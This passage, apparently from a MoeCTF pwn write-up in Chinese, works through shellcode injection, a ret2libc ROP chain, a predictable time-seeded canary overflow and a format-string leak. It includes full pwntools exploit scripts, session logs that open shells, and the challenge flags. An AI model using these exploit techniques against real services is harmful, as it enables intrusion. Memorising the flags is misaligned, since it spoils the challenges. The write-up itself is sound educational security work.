至于我们 `exit` 之后程序会怎么走，这其实已经不重要了。事实上，我们仍然没有为程序指定一个 `system` 之后的返回地址，但鉴于我们已经拿到了 `flag`，再多的段错误也已经和我们无关了。

## 2 ezshellcode

> [!NOTE]
> **FLAG:** `moectf{P0wERfuI_SHE1Ic0de_C@n-Do-ANyThING3180}`

首先先用 IDA Pro 反编译 `pwn` 文件：

```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
    int v4;              // [rsp+0h] [rbp-20h] BYREF
    int prot;            // [rsp+4h] [rbp-1Ch]
    int v6;              // [rsp+8h] [rbp-18h]
    int v7;              // [rsp+Ch] [rbp-14h]
    void *s;             // [rsp+10h] [rbp-10h]
    unsigned __int64 v9; // [rsp+18h] [rbp-8h]

    v9 = __readfsqword(0x28u);
    init(argc, argv, envp);
    s = mmap(0LL, 0x1000uLL, 3, 34, -1, 0LL);
    if (s == (void *)-1LL)
    {
        perror("mmap");
        return 1;
    }
    memset(s, 0, 0x1000uLL);
    v6 = 0;
    prot = 0;
    puts("In a ret2text exploit, we can use code in the .text segment.");
    puts("But now, there is no 'system' function available there.");
    puts("How can you get the flag now? Perhaps you should use shellcode.");
    puts("But what is shellcode? What can you do with it? And how can you use it?");
    puts("I will give you some choices. Choose wisely!");
    __isoc99_scanf("%d", &v4);
    do
        v7 = getchar();
    while (v7 != 10 && v7 != -1);
    if (v4 == 4)
    {
        if (v6 == 1)
            puts("You can only make one change!");
        prot = 7;
        v6 = 1;
    }
    else
    {
        if (v4 > 4)
            goto LABEL_24;
        switch (v4)
        {
        case 3:
            if (v6 == 1)
                puts("You can only make one change!");
            prot = 4;
            v6 = 1;
            break;
        case 1:
            if (v6 == 1)
                puts("You can only make one change!");
            prot = 1;
            v6 = 1;
            break;
        case 2:
            if (v6 == 1)
                puts("You can only make one change!");
            prot = 3;
            v6 = 1;
            break;
        default:
        LABEL_24:
            puts("Invalid choice. The space remains in its chaotic state.");
            exit(1);
        }
    }
    if (mprotect(s, 0x1000uLL, prot) == -1)
    {
        perror("mprotect");
        exit(1);
    }
    puts("\nYou have now changed the permissions of the shellcode area.");
    puts("If you can't input your shellcode, think about the permissions you just set.");
    read(0, s, 0x1000uLL);
    ((void (*)(void))s)();
    return 0;
}
```

略去 Canary 保护，程序使用 `mmap` 进行了一次内存映射分配：由系统选择内存地址、分配一块可读可写的、4096 字节大小的内存；随后使用 `memset` 将这块内存全部写 `0`。接下来，程序打印提示：

> In a ret2text exploit, we can use code in the .text segment.</br>
> But now, there is no 'system' function available there.</br>
> How can you get the flag now? Perhaps you should use shellcode.</br>
> But what is shellcode? What can you do with it? And how can you use it?</br>
> I will give you some choices. Choose wisely!</br>

嗯……然后会要求用户输入一个数字，并以这个数字应用 `mprotect` 的参数 `prot` 的值。上述代码中：

1. 若选择 `1` 则 `prot = 1` 为 `001`，这段内存只能执行，但不能读写；
2. 若选择 `2` 则 `prot = 3` 为 `011`，这段内存可读可写，但不能执行；
3. 若选择 `3` 则 `prot = 4` 为 `100`，这段内存只读，即不可写也不可执行；
4. 若选择 `4` 则 `prot = 7` 为 `111`，这段内存可读可写，也可以执行。

注意到：我们必须要向这段内存中注入我们的 Shellcode，并且需要执行它，才能达到我们的攻击预期。因此，对于程序发出的第一个问题，我们必须要输入 `4`。

```c
read(0, s, 0x1000uLL);
((void (*)(void))s)();
```

接下来，程序接受用户的输入，并将其写入到这片内存中，随后将内存地址作为指针并调用函数。

> [!TIP]
> 所谓 Shellcode，它的本质是一段机器代码，即 CPU 能够直接理解和执行的，由 `0` 和 `1` 组成的二进制指令序列。而之所以称它为 Shellcode，是因为早期的攻击者在使用类似的方法攻击时，都是想办法让目标系统打开一个命令行 Shell，从而让攻击者获得对系统的控制权。不过，现在的攻击并不局限于获取 Shell 了，但这个名字就一直沿用了下来。

换做平常，我们仍然需要手写 Shellcode，不过伟大的 Pwntools 又给了我们自动生成 Shellcode 的捷径😭

```python
from pwn import *

context(arch='amd64', os='linux', log_level='debug')

io = connect('127.0.0.1', 14041)

io.sendlineafter(b'Choose wisely!', b'4')

shellcode = asm(shellcraft.amd64.linux.sh())

log.info(f"Generated shellcode: {shellcode}")
log.info(f"Shellcode length: {len(shellcode)} bytes")

io.sendline(shellcode)

io.interactive()
```

运行，输出：

```plain
┌──(stellalyrin㉿lyrin-A16)-[~/MoeCTF/Pwn/ezshellcode]
└─$ python ./flag.py
[+] Opening connection to 127.0.0.1 on port 14041: Done
[DEBUG] Received 0x12a bytes:
    b'In a ret2text exploit, we can use code in the .text segment.\n'
    b"But now, there is no 'system' function available there.\n"
    b'How can you get the flag now? Perhaps you should use shellcode.\n'
    b'But what is shellcode? What can you do with it? And how can you use it?\n'
    b'I will give you some choices. Choose wisely!\n'
[DEBUG] Sent 0x2 bytes:
    b'4\n'
[DEBUG] cpp -C -nostdinc -undef -P -I/usr/lib/python3/dist-packages/pwnlib/data/includes
[DEBUG] Assembling
    .section .shellcode,"awx"
    .global _start
    .global __start
    _start:
    __start:
    .intel_syntax noprefix
    .p2align 0
        /* execve(path='/bin///sh', argv=['sh'], envp=0) */
        /* push b'/bin///sh\x00' */
        push 0x68
        mov rax, 0x732f2f2f6e69622f
        push rax
        mov rdi, rsp
        /* push argument array ['sh\x00'] */
        /* push b'sh\x00' */
        push 0x1010101 ^ 0x6873
        xor dword ptr [rsp], 0x1010101
        xor esi, esi /* 0 */
        push rsi /* null terminate */
        push 8
        pop rsi
        add rsi, rsp
        push rsi /* 'sh\x00' */
        mov rsi, rsp
        xor edx, edx /* 0 */
        /* call execve() */
        push 59 /* 0x3b */
        pop rax
        syscall
[DEBUG] /usr/bin/x86_64-linux-gnu-as -64 -o /tmp/pwn-asm-7jit6wcz/step2 /tmp/pwn-asm-7jit6wcz/step1
[DEBUG] /usr/bin/x86_64-linux-gnu-objcopy -j .shellcode -Obinary /tmp/pwn-asm-7jit6wcz/step3 /tmp/pwn-asm-7jit6wcz/step4
[*] Generated shellcode: b'jhH\xb8/bin///sPH\x89\xe7hri\x01\x01\x814$\x01\x01\x01\x011\xf6Vj\x08^H\x01\xe6VH\x89\xe61\xd2j;X\x0f\x05'
[*] Shellcode length: 48 bytes
[DEBUG] Sent 0x31 bytes:
    00000000  6a 68 48 b8  2f 62 69 6e  2f 2f 2f 73  50 48 89 e7  │jhH·│/bin│///s│PH··│
    00000010  68 72 69 01  01 81 34 24  01 01 01 01  31 f6 56 6a  │hri·│··4$│····│1·Vj│
    00000020  08 5e 48 01  e6 56 48 89  e6 31 d2 6a  3b 58 0f 05  │·^H·│·VH·│·1·j│;X··│
    00000030  0a                                                  │·│
    00000031
[*] Switching to interactive mode

[DEBUG] Received 0x8a bytes:
    b'\n'
    b'You have now changed the permissions of the shellcode area.\n'
    b"If you can't input your shellcode, think about the permissions you just set.\n"

You have now changed the permissions of the shellcode area.
If you can't input your shellcode, think about the permissions you just set.
$ ls
[DEBUG] Sent 0x3 bytes:
    b'ls\n'
[DEBUG] Received 0x2c bytes:
    b'bin\n'
    b'flag\n'
    b'lib\n'
    b'lib32\n'
    b'lib64\n'
    b'libexec\n'
    b'libx32\n'
    b'pwn\n'
bin
flag
lib
lib32
lib64
libexec
libx32
pwn
$ cat flag
[DEBUG] Sent 0x9 bytes:
    b'cat flag\n'
[DEBUG] Received 0x2f bytes:
    b'moectf{P0wERfuI_SHE1Ic0de_C@n-Do-ANyThING3180}\n'
moectf{P0wERfuI_SHE1Ic0de_C@n-Do-ANyThING3180}
$ exit
[DEBUG] Sent 0x5 bytes:
    b'exit\n'
[*] Got EOF while reading in interactive
$
[*] Interrupted
[*] Closed connection to 127.0.0.1 port 14041
```

如此优雅地结束了。另外，Pwntools 的 [文档](https://docs.pwntools.com/en/stable/shellcraft/amd64.html) 中记述了更多这样的用法。

## 3 认识 libc

> [!NOTE]
> **FLAG:** `moectf{you_jUst_have-1ibc-now3ba4a04ec}`

按惯例欣赏一下 IDA Pro 反编译出的代码：

```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
    setup(argc, argv, envp);
    puts("The Oracle speaks...");
    puts("There is no system function in the .text segment.");
    printf("A gift of forbidden knowledge, the location of 'printf': %p\n", &printf);
    vuln();
    return 0;
}
```

太有说法了，程序直接把 `printf` 的地址爆出来了。

```c
ssize_t vuln()
{
    char buf[64]; // [rsp+0h] [rbp-40h] BYREF

    puts("\nNow, show me what you can do with this knowledge:");
    printf("> ");
    return read(0, buf, 0x100uLL);
}
```

紧接着就要求用户输入至多 256 个字节的数据并覆盖到缓冲区。我们能想到的一定是栈溢出，但对于之前做过的 EZtext 等题目，程序明确给出了一个可以直接跳转到的，如 `treasure` 的函数，我们直接 ROP 到那里就可以。不过这一次，程序里有用的函数就一个 `main` 和一个 `vuln`，我们没有办法利用现有的已知函数，但看到程序给定了 `libc` 库，所以，我们要构造一个伟大的东西——**ret2libc 攻击**。

> [!TIP]
> 所谓 `libc`，即 C 标准库（C Standard Library）在 Unix 和类 Unix 系统（例如 Linux）上的实现，它是操作系统中最基本、最核心的共享库。几乎每一个程序都依赖 `libc`——无论是用 C、C++ 还是部分其他语言编写的程序，最终都会链接到 `libc` 来调用底层的系统功能。`libc` 中的很多函数都是对操作系统的系统调用（syscall）的封装，为应用程序提供了更友好、更高级的接口。
>
> 在现代系统中（例如本题），`libc` 通常以动态链接库（`.so` 文件）的形式存在，这使得系统中所有运行的程序可以共享同一份 `libc` 代码在内存中的副本，节省了内存和磁盘空间。
>
> 简而言之，`libc` 是应用程序和操作系统内核之间的一个关键的中间层。

ret2libc 攻击，全称 Return-to-libc，是一种二进制漏洞利用技术，主要用于利用栈溢出（Stack-based Buffer Overflow）漏洞。它的核心思想是，虽然程序本身没有暴露 `system` 这样的危险函数，但它所依赖的 `libc` 库中几乎包括了所有我们需要的函数，包括 `system()` 和 `execve()` 等，我们可以合理利用 `libc` 里的这些函数，达成和之前题目一样的效果。例如，在本题中，我们可以使用 `vuln` 函数的缓冲区溢出漏洞以控制栈上的返回地址，将返回地址覆盖为 `libc` 中 `system()` 函数的地址，同时，将 `system()` 函数所需要的参数（例如 `/bin/sh`）巧妙地布置在栈上，使得它能够被 `system()` 函数成功读取。

不过说到 ret2libc，它的实现条件便严苛了许多。通常地，需要满足下面这些要求：

1. **存在栈溢出漏洞：** 只有想办法能够覆盖到栈的返回地址，我们才能控制程序的执行流程（EIP/RIP）。
2. **获取到 `libc` 基地址：** ASLR（Address space layout randomization，地址空间布局随机化）机制 是一种常见的防御机制，它通过随机化内存中代码、数据和堆栈的布局，增加了攻击者进行缓冲区溢出等攻击的难度。也就是说，`libc` 库在每次程序加载时，其在内存中的基地址是变化的！我们需要知道 `libc` 的基地址，相对地，计算出 `system()` 等函数的真实地址。
3. **找到需要的函数和字符串：** 我们需要知道 `system()` 函数和 `"/bin/sh"` 字符串在 `libc` 中的相对偏移地址，这样才能构造完备的 ret2libc 链。
4. **需要一个 `pop rdi ; ret` gadget：** 在 64 位程序中，函数的前几个参数是通过寄存器传递的，其中第一个参数通过 `rdi` 寄存器传递。我们需要将 `"/bin/sh"` 字符串传递给 `system()` 函数，这意味着我们需要先将该字符串 pop 进 `rdi` 寄存器内。所以，我们需要找到一段指令序列 `pop rdi`。

找到 `libc` 基地址一般来说并非易事，但本体直接告诉了我们 `printf()` 函数的地址，这很好，我们直接能把 `libc` 的基地址相对计算出来了。

这里，我们使用 `readelf` 来查看题目中 `libc.so.6` 的符号表，以确定各个地址的偏移量。比如说 `printf()` 和 `system`（中间部分有省略）：

```plain
┌──(stellalyrin㉿lyrin-A16)-[/mnt/s/MoeCTF/Pwn/easylibc]
└─$ readelf -s libc.so.6 | grep printf
...
  2922: 00000000000606f0   204 FUNC    GLOBAL DEFAULT   15 printf@@GLIBC_2.2.5
```

```plain
┌──(stellalyrin㉿lyrin-A16)-[/mnt/s/MoeCTF/Pwn/easylibc]
└─$ readelf -s libc.so.6 | grep system
  1481: 0000000000050d70    45 FUNC    WEAK   DEFAULT   15 system@@GLIBC_2.2.5
```

哈哈，这就找见了。接下来我们寻找 `"/bin/sh"` 字符串，使用 `strings` 命令，以及目标的 gadget：

```plain
┌──(stellalyrin㉿lyrin-A16)-[/mnt/s/MoeCTF/Pwn/easylibc]
└─$ strings -a -t x libc.so.6 | grep /bin/sh
 1d8678 /bin/sh
```

```plain
┌──(stellalyrin㉿lyrin-A16)-[/mnt/s/MoeCTF/Pwn/easylibc]
└─$ ROPgadget --binary libc.so.6 --only "pop|ret" | grep "pop rdi"
0x000000000002a745 : pop rdi ; pop rbp ; ret
0x000000000002a3e5 : pop rdi ; ret
```

万事俱备。我们探究一下整个 ret2libc 过程中的堆栈结构：首先，在 `main` 跳转到 `vuln`，即将 `ret` 时：

```plain
** High Address **

 -----------------------
|  `main` stack frame   |
 -----------------------
| `main` return address |
 -----------------------
|      saved `rbp`      |
 -----------------------  <- rbp
|     buf(64 bytes)     |
 -----------------------  <- rsp

** Low Address **
```

显而易见地，我们需要在 `buf` 中先叠入 72 个无用的字符，然后直接冲到 `main` 的返回地址。但是这返回地址该如何填入呢？按照 EZtext 的做法，事实上我们只需要包含一个到 `treasure` 函数的返回地址就可以了，但是这里我们需要构造一个精巧的 ROP 链。星澜音直接给出构造：

```diff
** High Address **

- ...                         -> might be `exit` or nothing
+  -------------------------
+ |    `system` address     |
+  -------------------------
+ |   `"/bin/sh"` address   | -> overwrote `main` stack frame
+  -------------------------
+ | `pop rdi ; ret` address | -> overwrote `main` return address
+  -------------------------
  |    PADDING(72 bytes)    | -> including `buf`
   -------------------------     and `saved rbp`

** Low Address **
```

在程序进行 `retn` 后，`rbp` 和 `rsp` 移位，将 `pop rdi ; ret` 的地址推入 RIP 寄存器中。随后 CPU 开始执行 `pop rdi`，它将 `"/bin/sh"` 推入 `rdi` 寄存器中，然后 `ret` 返回，`ret` 时再次执行 `pop rip` 将 `system` 地址推入 RIP 寄存器中，这样，`system` 就带着 `rdi` 寄存器中存储的数据作为第一参数开始执行了！

太好了，按照之前的方法编写脚本，开始运行！（有省略）

```plain
[+] Payload sent!
[*] Switching to interactive mode
[*] Got EOF while reading in interactive
$
[*] Interrupted
[*] Closed connection to 127.0.0.1 port 8514
```

嗯？怎么又 EOF 了……何意味？果然还是之前那个老毛病，没有对齐 `rsp` 导致的。我们还需要对 ROP 链继续改进一下，加入一个 `ret`：

```diff
** High Address **

  ...                         -> might be `exit` or nothing
   -------------------------
  |    `system` address     |
+  -------------------------
+ |      `ret` address      |
+  -------------------------
  |   `"/bin/sh"` address   | -> overwrote `main` stack frame
   -------------------------
  | `pop rdi ; ret` address | -> overwrote `main` return address
   -------------------------
  |    PADDING(72 bytes)    | -> including `buf`
   -------------------------     and `saved rbp`

** Low Address **
```

这下没问题了😋事实上，作为一个合格的摆烂 Pwner，找地址这种事情完全可以让 Pwntools 帮我们做，只需要指定好 `elf` 和 `libc` 即可。下面给出一个示例 Pwntools 脚本：

```python
from pwn import *

context(arch="amd64", os="linux", log_level="debug")

elf = ELF("./pwn")
libc = ELF("./libc.so.6")
p = connect("127.0.0.1", 8514)

p.recvuntil(b"printf': ")
leaked_printf_addr = int(p.recvline().strip(), 16)
log.success(f"得到 `printf` 的地址：{hex(leaked_printf_addr)}")

libc.address = leaked_printf_addr - libc.symbols["printf"]
log.success(f"计算得到 `libc` 的基地址：{hex(libc.address)}")

system_addr = libc.symbols["system"]
log.success(f"寻找到 `system()` 的地址：{hex(system_addr)}")

bin_sh_addr = next(libc.search(b"/bin/sh"))
log.success(f"寻找到 `/bin/sh` 的地址：{hex(bin_sh_addr)}")

rop = ROP(libc)
pop_rdi_ret_addr = rop.find_gadget(["pop rdi", "ret"])[0]
log.success(f"寻找到 'pop rdi; ret' gadget 的地址：{hex(pop_rdi_ret_addr)}")

ret_addr = rop.find_gadget(["ret"])[0]
log.success(f"寻找到 'ret' gadget 的地址，用于栈对齐: {hex(ret_addr)}")

OFFSET = 72
PADDING = b"A" * OFFSET
log.info(f"Using offset: {OFFSET}")

payload = PADDING
payload += p64(pop_rdi_ret_addr)
payload += p64(bin_sh_addr)
payload += p64(ret_addr)
payload += p64(system_addr)

p.recvuntil(b"> ")

p.sendline(payload)
log.success("Payload sent!")

p.interactive()
```

开跑：

```plain
┌──(stellalyrin㉿lyrin-A16)-[/mnt/s/MoeCTF/Pwn/easylibc]
└─$ python ./ret2libc.py
[*] '/mnt/s/MoeCTF/Pwn/easylibc/pwn'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
[*] '/mnt/s/MoeCTF/Pwn/easylibc/libc.so.6'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    SHSTK:      Enabled
    IBT:        Enabled
[+] Opening connection to 127.0.0.1 on port 8514: Done
[DEBUG] Received 0xc4 bytes:
    b'The Oracle speaks...\n'
    b'There is no system function in the .text segment.\n'
    b"A gift of forbidden knowledge, the location of 'printf': 0x7fc0f12a86f0\n"
    b'\n'
    b'Now, show me what you can do with this knowledge:\n'
    b'> '
[+] 得到 `printf` 的地址：0x7fc0f12a86f0
[+] 计算得到 `libc` 的基地址：0x7fc0f1248000
[+] 寻找到 `system()` 的地址：0x7fc0f1298d70
[+] 寻找到 `/bin/sh` 的地址：0x7fc0f1420678
[*] Loaded 219 cached gadgets for './libc.so.6'
[+] 寻找到 'pop rdi; ret' gadget 的地址：0x7fc0f12723e5
[+] 寻找到 'ret' gadget 的地址，用于栈对齐: 0x7fc0f1271139
[*] Using offset: 72
[DEBUG] Sent 0x69 bytes:
    00000000  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  │AAAA│AAAA│AAAA│AAAA│
    *
    00000040  41 41 41 41  41 41 41 41  e5 23 27 f1  c0 7f 00 00  │AAAA│AAAA│·#'·│····│
    00000050  78 06 42 f1  c0 7f 00 00  39 11 27 f1  c0 7f 00 00  │x·B·│····│9·'·│····│
    00000060  70 8d 29 f1  c0 7f 00 00  0a                        │p·)·│····│·│
    00000069
[+] Payload sent!
[*] Switching to interactive mode
$ cat flag
[DEBUG] Sent 0x9 bytes:
    b'cat flag\n'
[DEBUG] Received 0x28 bytes:
    b'moectf{you_jUst_have-1ibc-now3ba4a04ec}\n'
moectf{you_jUst_have-1ibc-now3ba4a04ec}
```

舒服了。😋

不过零音在本地调试的时候……不知道为啥总是 `SIGFPE`，诡异……不知道有无大神解答一下😭

```plain
┌──(stellalyrin㉿lyrin-A16)-[/mnt/s/MoeCTF/Pwn/easylibc]
└─$ python ./ret2libc.py
...
[x] Starting local process '/mnt/s/MoeCTF/Pwn/easylibc/pwn' env={b'LD_PRELOAD': b'/mnt/s/MoeCTF/Pwn/easylibc/libc.so.6'}[.] Starting local process '/mnt/s/MoeCTF/Pwn/easylibc/pwn' env={b'LD_PRELOAD': b'/mnt/s/MoeCTF/Pwn/easylibc/libc.so.6'}[+] id 5266
Traceback (most recent call last):
...
EOFError
[*] Process '/mnt/s/MoeCTF/Pwn/easylibc/pwn' stopped with exit code -8 (SIGFPE) (pid 5266)
```

## boom / boom_revenge

> [!NOTE]
> **FLAG:** `moectf{IaST-TIMe_Tim3_is_5Pe3DIng-up3f68b}` / `moectf{No_pl3@5E-stOp_1-surreNDEra0c564f}`，后面可能是随机的。

使用 IDA Pro 打开 `pwn` 进行一个逆向，先看到 `main` 函数😨6️⃣6️⃣6️⃣来了个大的，~~太长不看~~：

```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
    char s[124]; // [rsp+0h] [rbp-90h] BYREF
    int canary_var; // [rsp+7Ch] [rbp-14h]
    int v6; // [rsp+8Ch] [rbp-4h]

    init(argc, argv, envp);
    puts("Welcome to Secret Message Book!");
    puts("Do you want to brute-force this system? (y/n)");
    fgets(&brute_choice, 8, stdin);
    v6 = 0;
    if ( brute_choice == 121 || brute_choice == 89 )
    {
        v6 = 1;
        canary = (int)random() % 114514;
        canary_var = canary;
        puts("waiting...");
        sleep(1u);
        puts("boom!");
        puts("Brute-force mode enabled! Security on.");
    }
    else
    {
        puts("Normal mode. No overflow allowed.");
    }
    printf("Enter your message: ");
    if ( v6 )
        gets(s);
    else
        fgets(s, 128, stdin);
    if ( v6 && canary_var != canary )
    {
        puts("Security check failed!");
        exit(1);
    }
    puts("Message received.");
    return 0;
}
```

> [!TIP]
> 注意这里的 `canary_var` 原名是 `canary`，不过 `.bss` 段里的那个也叫 `canary`，这里星澜音就给局部变量改名为 `canary_var` 了。

开始分析——先别急。这次看看 `init()`，突然发现，里面多了几行：

```c
seed = time(0LL);
srandom(seed);
```

C 语言中，当我们使用 `void srandom(unsigned int seed)` 固定一个种子后，事实上，`random()` 函数产生的序列就相同了。不过这能用来干什么🤔存疑。不妨先阅读代码。

程序询问我们要不要暴力破解它🥵，如果输入的是 `y` 或 `Y` ，那么程序就会启用暴力模式，设置 `v6 = 1`。在这里，程序随机生成一个 `canary` 的值，该值是由 `seed` 作种的随机数求模 `114514` 后的结果。到了后面，如果 `v6 = 1`（即打开暴力模式）且 `canary_var` 的值和 `canary` 相等，就能使用古法溢出 `gets(s)` 了😋

注意到 `main()` 内没有明显的跳转逻辑，看来只能寄希望于在 `return 0;` 的时候，覆盖 `main()` 的返回地址到 `win()` 了。这意味着，我们需要进行一次栈溢出，覆盖掉 `main()` 的返回地址。在 IDA Pro 中跟踪到 `main()` 函数的栈帧，`s` 只要能多写一点，覆盖掉 `canary_var`、`var_4` 和 `saved RBP` 后，就能干到 `ret addr` 了。

这是极好的😋不过这个 `canary_var`🤔它是基于时间的，这说明我们需要在本地先把 `canary_var` 搞到，然后再用 Pwntools 装在 `payload` 里打出去。有点麻烦，但是可行😌我们编写如下程序 `get_canary.c`：

```c
#include <stdio.h>
#include <stdlib.h>
#include <time.h>

int main() {
    srandom(time(0));
    printf("%d\n", random() % 114514);
    return 0;
}
```

进行一个编译，这样我们运行该程序的时候，程序会打出当前时间作种时生成的第 1 个随机数。多运行几次，发现每秒的结果确实是一样的。


然后构造 `exploit.py`：

```python
import subprocess

from pwn import *

context.binary = './pwn'

io = remote('127.0.0.1', 7123)
# io = process('./pwn')

elf = ELF('./pwn')
win_addr = elf.symbols['win']

CANARY = int(subprocess.check_output(['./get_canary']))

log.info(f"Predicted canary: {CANARY}")

io.sendlineafter(b'(y/n)\n', b'y')

io.recvuntil(b'Enter your message: ')
PAYLOAD = b'A' * 124
PAYLOAD += p32(CANARY)
PAYLOAD += b'B' * 24
PAYLOAD += p64(0x40101a)
PAYLOAD += p64(win_addr)
io.sendline(PAYLOAD)

io.interactive()
```

`PAYLOAD += p64(0x40101a)` 是经验主义的 `ret`。总之能跑起来就行。但星澜音还是想吐槽：**一秒变一次到底是谁的主意** 😡 星澜音运行了 26 次才成功 👊

## fmt

> [!NOTE]
> **FLAG:** `moectf{the-bEGiNn1Ng-Of-fOrmAt4345abe51}`，后面可能是随机的。

看看 `main()`：

```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
    char *s2_1; // [rsp+8h] [rbp-88h]
    char s1[16]; // [rsp+10h] [rbp-80h] BYREF
    char s2[16]; // [rsp+20h] [rbp-70h] BYREF
    char s[88]; // [rsp+30h] [rbp-60h] BYREF
    unsigned __int64 v8; // [rsp+88h] [rbp-8h]

    v8 = __readfsqword(0x28u);
    init(argc, argv, envp);
    s2_1 = (char *)malloc(0x20uLL);
    generate(s2, 5LL);
    generate(s2_1, 5LL);
    puts("Hey there, little one, what's your name?");
    fgets(s, 80, stdin);
    printf("Nice to meet you,");
    printf(s);
    puts("I buried two treasures on the stack.Can you find them?");
    fgets(s1, 8, stdin);
    if ( strncmp(s1, s2, 5uLL) )
        lose();
    puts("Yeah,another one?");
    fgets(s1, 8, stdin);
    if ( strncmp(s1, s2_1, 5uLL) )
        lose();
    win();
    return 0;
}
```

它调用 `generate()` 函数，向 `s2` 和 `s2_1` 中写了点东西。看看 `generate()`：

```c
unsigned __int64 __fastcall generate(__int64 a1, unsigned __int64 i_1)
{
    unsigned __int64 i; // [rsp+18h] [rbp-48h]
    char abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ[56]; // [rsp+20h] [rbp-40h] BYREF
    unsigned __int64 v5; // [rsp+58h] [rbp-8h]

    v5 = __readfsqword(0x28u);
    strcpy(abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ, "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ");
    for ( i = 0LL; i < i_1; ++i )
        *(_BYTE *)(a1 + i) = abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ[(int)arc4random_uniform(52LL)];
    *(_BYTE *)(a1 + i_1) = 0;
    return v5 - __readfsqword(0x28u);
}
```

该函数向 `a1` 写入 `i_1` 个字符的随机字母字符串，并在末尾附加一个 `'\0'`。这里 `a1` 在两次调用中分别就是 `s2` 和 `s2_1`，而 `i_1` 为 `5`，即生成一个 5 字节的随机字符串，并写给 `s2` 和 `s2_1`，以等待后续校验。解决的思路是很明了的：我们想办法搞到 `s2` 和 `s2_1` 就行了！不过该怎么搞🤔题目给出了提示：

> 如果我们能控制格式化字符串，含有各种格式说明符（形如 `%s`，`%p`），并且不提供后续参数，程序会从哪里找来一个「虚空」参数？这可能导致意想不到的结果！
<!---->
> [!TIP]
> 关于 `printf()` 这种行为，详细的原理在后面的 `fmt_S` 题目 writeup 中给出了说明。<br/>
> ~~因为 `fmt_S` 的 writeup 写得比较早~~

不过在此之前，需要注意的是，在变量声明时我们已经看到：

```c
char *s2_1; // [rsp+8h] [rbp-88h]
char s2[16]; // [rsp+20h] [rbp-70h] BYREF
```

`char s2[16]` 在栈上直接分配了 16 个字节的空间，变量名 `s2` 就代表这块内存的起始地址。当我们调用 `generate(s2, 5LL)` 时，函数直接将 5 个随机字节写入到了栈上的这块内存区域。但是 `char *s2_1` 则不然，它在栈上分配了一个指针变量 `s2_1`，（在 64 位系统上）这个变量的大小是 8 个字节，它的作用仅仅是存放一个内存地址。后续的 `malloc()` 函数在堆（Heap）上分配了 32（`0x20`）字节的内存，并返回这块内存的起始地址，所以实际上，`s2_1` 中存储的是这块内存的地址。我们调用 `generate(s2_1, 5LL)` 时，函数是把 5 个随机字节直接写入到了 `s2_1` 所指向的堆内存区域。

所以，我们若要读取数据，需要采取不同的策略：对于 `s2`，只需要读栈上的数据就行；但是对于 `s2_1`，我们需要读栈上的地址，由这个指向堆的地址再去读堆上的数据。

问题来了，我们到底需要多少个 `%p` 才能让 `printf()` 打出我们需要的东西？不妨动态调试一下吧。这里我们使用 `dbg`，不过是装了 `pwndbg` 的高级 `dbg`😋

```bash
pwndbg ./pwn
```

我们使用函数 `disass` 来反编译 `main()` 函数，并在第二次 `printf`（打印 `s` 的那次）前下一个断点。使用

```plain
disass main
```

仔细寻找，可以得到：

```plain
...
   0x0000000000001465 <+133>:   lea    rax,[rip+0xbed]        # 0x2059
   0x000000000000146c <+140>:   mov    rdi,rax
   0x000000000000146f <+143>:   mov    eax,0x0
   0x0000000000001474 <+148>:   call   0x1130 <printf@plt>
   0x0000000000001479 <+153>:   lea    rax,[rbp-0x60]
   0x000000000000147d <+157>:   mov    rdi,rax
   0x0000000000001480 <+160>:   mov    eax,0x0
   0x0000000000001485 <+165>:   call   0x1130 <printf@plt>
...
```

嗯，位于 `main+165` 的位置，我们追加断点。

```plain
break *main+165
```

然后输入 `r` 开始启动程序——

```plain
pwndbg> r
Starting program: /mnt/s/MoeCTF/Pwn/fmt/pwn
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Hey there, little one, what's your name?
```

这里就开始准备注入 `s` 了，我们先用 10 个 `%p` 来试试水：

```plain
%p.%p.%p.%p.%p.%p.%p.%p.%p.%p
```

回车，程序到了我们设置的断点！不得不说 `pwndbg` 这界面是真心好看啊😍就是东西好多，看不太懂😭



找 DeepSeek 分析了一下调试器在说什么。首先是顶部的

```plain
Breakpoint 1, 0x0000555555555485 in main ()
```

它表示程序在 `main()` 的 `0x0000555555555485` 地址停止，这是我们设置的第 1 个断点。

下面的 `REGISTERS` 显示了所有 CPU 寄存器的当前值，例如，`RDI` 中的值是 `0x7fffffffd620`，它指向的是 `format` 字符串 `%p.%p.%p.%p.%p.%p.%p.%p.%p.%p\n`，也就是我们刚输入进去的。`RSI = 0x7fffffffd440` 则指示第二个参数 `"Nice to meet you,"`，`RIP` 则是下一步要执行的指令地址。

下面的 `DISASM` 中，标绿的第一行

```plain
 ► 0x555555555485 <main+165> call printf@plt <printf@plt>
```

表示程序下一步就执行的指令——它要调用 `printf()` 函数了！

再往下走有 `STACK`，顾名思义，就是栈内存的内容。

```plain
00:0000│ rsp 0x7fffffffd5f0 ◂— 0x100000
01:0008│-088 0x7fffffffd5f8 —▸ 0x5555555592a0 ◂— 0x7254616f74
...
06:0030│ rdi 0x7fffffffd620 ◂— '%p.%p.%p.%p.%p.%p.%p.%p.%p.%p\n'
```

下面的 `BACKTRACE` 指示了函数调用链，例如从这里

```plain
► 0   0x555555555485 main+165
   1   0x7ffff7ddeca8 None
   2   0x7ffff7dded65 __libc_start_main+133
   3   0x5555555551a5 _start+37
```

我们就能推断出函数调用链 `_start` -> `__libc_start_main` -> `main` 了。

——不过我们更需要的是 `STACK` 中的内容。现在，让我们好好解析一下 `STACK` 的输出：首先是第 1 行：

```plain
00:0000│ rsp 0x7fffffffd5f0 ◂— 0x100000
```

它表明栈顶指针 `rsp` 指向这里，这里存放的值是 `0x100000`，在后续会被第 6 个 `%p` 打印。

